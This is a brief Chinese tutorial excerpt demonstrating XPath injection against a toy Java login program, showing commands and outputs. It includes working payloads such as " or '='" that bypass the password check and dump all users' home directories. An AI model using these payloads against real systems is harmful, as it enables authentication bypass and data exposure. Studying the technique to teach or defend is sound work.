 # XPath注入示例

使用如下语句正常获取记录:  

<pre>
$ java XPathInject 'zhangsan' '123456'
//users/user[username/text()='zhangsan' and password/text() = '123456']/home_dir/text()
/home/hello_zhangsan
</pre>

对于不正常的用户名和密码返回空:

<pre>
$ java XPathInject lisi 123456
//users/user[username/text()='lisi' and password/text() = '123456']/home_dir/text()
Can not found the given user directory
</pre>

知道用户名称忽略其密码:

<pre>
$ java XPathInject lisi " or '='"
//users/user[username/text()='lisi' and password/text() = ' or '='']/home_dir/text()
/home/lisi
</pre>

盲注的效果:

<pre>
$ java XPathInject "zhangsan or '='" " or '='"
//users/user[username/text()='zhangsan or '='' and password/text() = ' or '='']/home_dir/text()
/home/hello_zhangsan
/home/lisi
/home/wangwu
</pre>